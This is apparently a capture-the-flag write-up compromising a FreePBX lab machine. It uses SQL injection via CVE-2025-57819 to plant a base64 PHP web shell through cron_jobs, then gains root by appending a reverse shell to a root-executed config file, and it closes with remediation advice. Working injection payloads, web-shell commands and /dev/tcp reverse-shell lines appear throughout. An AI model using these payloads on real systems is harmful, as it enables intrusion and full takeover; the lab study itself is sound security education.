## Failed Attempt
- Let's always start with a port scan
    - 
    - We see that web connection is available, so we first adjust `/etc/hosts` and add in this uri s.t. HTTPS vhost routing behaves.
- After, we can interact with the webservice, but we can also do enumeration for directories, thus i did the standard `gobuster dir -u [url] -w /usr/share/wordlists/dirb/common.txt` and found that:
    - 
    - We can see login portals, but admin just shows the normal page, and `robots.txt` don't show anything useful, so we navigate to `/ucp` and under that
    - 
    - The version is apparent, so we try finding some CVEs upon this specific version by doing `searchsploit freepbx`
        - 
        - hmm, so there is an exploit ready to use, let's start digging!
- We could choose to just straight up run this and finish this box, but that is a bad habit. Instead, we want to first understand how this exploit works and see if the script actually does that (else if the script is a trojan?)
    - `searchsploit -m php/webapps/52031.php` Use this and see
    - 
- Lets `cat 52031.php`:
    - 
      <span class="caption">The PoC posts to `/admin/ajax.php?module=api&command=generatedocs` with a `$(bash -i …)` reverse shell hidden in the `host` value, and it needs a valid `PHPSESSID`, which is exactly the part we don't have.</span>
    - See that it only needs `any valid session even extension` so let's try using the cookie straight up
    - However, let's first understand what this is doing: Send a POST req to FreePBX's REST API module, and this `scopes=rest&host=http://<ip>/$(bash -1 >& /dev/tcp/<ip>/4444 0>&1)` is the star of the atk, see that when `generatedocs` generates the docs, it takes `host` value and executes the shell command behind WITHOUT sanitizing it. What it runs is a reverse shell, so we would later want to do `nc -lvnp 4444` and let the script run to gain shell access.
- Let's fill in the variables, note that `$url` needs the `connected.htb` and not the straight up IP, and `$backconnectip` needs our own vpn ip, so we can do `ifconfig` to check for `tun0` ip
    - Hmm it shows 
    - This means we cannot just straight up grab any `$PHPSESSID` and expect it to work

- After trying a bunch of default credentials and they all don't work, and I have no idea anymore :(

## Successful Approach-User flag
- My above approach was proven not useful because we could not gain access to the system anyhow, so I researched and found that ` CVE-2025-57819` can be used against this
- We try to check if err-based SQLi works:
    - Go to `"https://connected.htb/admin/ajax.php?module=FreePBX\\modules\\endpoint\\ajax&command=model&template=x&model=model&brand=x'+AND+EXTRACTVALUE(1,CONCAT('~USER:',(SELECT USER()),'~'))--+"`
    - 
      <span class="caption">The `EXTRACTVALUE` payload makes MySQL throw an XPATH error that echoes our query back: `~freepbxuser@localhost~`. Seeing the `USER()` result inside the error confirms error-based SQL injection.</span>
    - See that it leaks info of the db, so it may work here
- Let's guess the `cron_jobs` column exists, so we try to inject a malicious payload inside that
```bash
curl -ik -G "https://connected.htb/admin/ajax.php" \
  --data-urlencode "module=FreePBX\modules\endpoint\ajax" \
  --data-urlencode "command=model" \
  --data-urlencode "template=x" \
  --data-urlencode "model=model" \
  --data-urlencode "brand=x';INSERT INTO cron_jobs (modulename,jobname,command,class,schedule,max_runtime,enabled,execution_order) VALUES ('sysadmin','wt-shell3','echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==|base64 -d >/var/www/html/wt-shell3.php',NULL,'* * * * *',30,1,1)-- -"
```
- After so, because cron_jobs run 1 time per min, so after 1 min let's try if this actually works:
    - First on another terminal set up a listener: `nc -lnvp 4444`
    - Do `curl -k "https://connected.htb/wt-shell3.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/[tun0 ip]/4444 0>&1'" -G`
    - And see we are in.
    - 
      <span class="caption">Left: the first request 404s because the cron job hadn't run yet; a minute later the same request hits `wt-shell3.php`. Right: the listener catches a shell from 10.129.11.18, and the FreePBX banner confirms we're on the box.</span>
- This will give us the user flag by:
    - 

## Priv Escalation-Root flag
- Hmm, for priv escalation we always want to search for root-level configuration files
    - What can I write that I shouldn't be able to? → `find / -writable -type f 2>/dev/null | grep -vE '^/(proc|sys|dev|run|tmp|var/tmp|var/spool/asterisk/incron)'
  | grep -vE "^$HOME"
  | grep -E '^/(etc|opt|usr|var/www|usr/local|srv)/'`
- Especially now we see that the incron daemon runs as root, so anything it launches runs as root (thus maybe we can inject a reverse shell init and let it run?)
- But these are all too complex, let's just use linpeas.sh
    - Because HTB boxes mostly does not have internet, so we navigate on our machine to where linpeas.sh is and start `python3 -m http.server 8000` to allow the HTB box to get linpeas.sh from us
    - Then on the HTB machine we do:

      ```bash
      cd /tmp
      curl -o linpeas.sh http://<your-tun0-ip>:8000/linpeas.sh
      chmod +x linpeas.sh
      ./linpeas.sh | tee /tmp/lp.txt
      ```

- There is so much! 功力不足哀哀哀看不懂哪個可以用來提權 只好看write up 了
- After enumeration we see that `/etc/dahdi/init.conf` can be modified but we shouldnt be able to because it executes the cmds in it as root
    - Thus we inject a rev shell payload `echo 'bash -c "bash -i >& /dev/tcp/YOUR_IP/4445 0>&1" &' >> /etc/dahdi/init.conf`
    - Then start a new listener on our machine `nc -lvnp 4445`
    - Restart `echo "restart" > /var/spool/asterisk/sysadmin/dahdi_restart`
    - And we have full root access
    - 

## Remediation

- **Patch FreePBX.** [CVE-2025-57819](https://nvd.nist.gov/vuln/detail/CVE-2025-57819) is the unauthenticated SQL injection that got us in — update FreePBX and the endpoint/sysadmin modules. The underlying bug is `ajax.php` building SQL from `brand`/`model` without parameterization, so the real fix is parameterized queries and an app DB account that can't `INSERT INTO cron_jobs`.
- **Don't version-disclose.** `/ucp` advertised the exact FreePBX version, which is what made CVE-selection trivial. Strip version banners where you can.
- **The web user shouldn't write files the root daemon executes.** Root fell because `www-data` could append to `/etc/dahdi/init.conf`, which the root incron watcher runs. Config consumed by a root service must be owned by root and not writable by the web/asterisk account, and incron shouldn't execute attacker-influenced content.

### References

- [CVE-2025-57819 — FreePBX authentication bypass / SQLi](https://nvd.nist.gov/vuln/detail/CVE-2025-57819)
- [OWASP — SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [CWE-732 — incorrect permission assignment for critical resource](https://cwe.mitre.org/data/definitions/732.html)
